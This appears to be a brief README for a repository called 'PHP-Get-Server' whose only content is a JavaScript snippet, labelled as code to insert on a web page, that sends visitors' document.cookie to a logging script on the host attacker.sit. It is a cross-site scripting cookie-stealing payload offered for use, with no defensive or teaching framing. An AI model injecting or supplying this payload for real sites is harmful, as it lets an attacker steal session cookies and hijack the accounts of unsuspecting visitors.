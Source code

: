 # PHP-Get-Server
php get server 

Code to insert on a web page:

      <script>
      var i = new Image();
      i.src="http://attacker.sit/log.php?q="+document.cookie;
      </script>
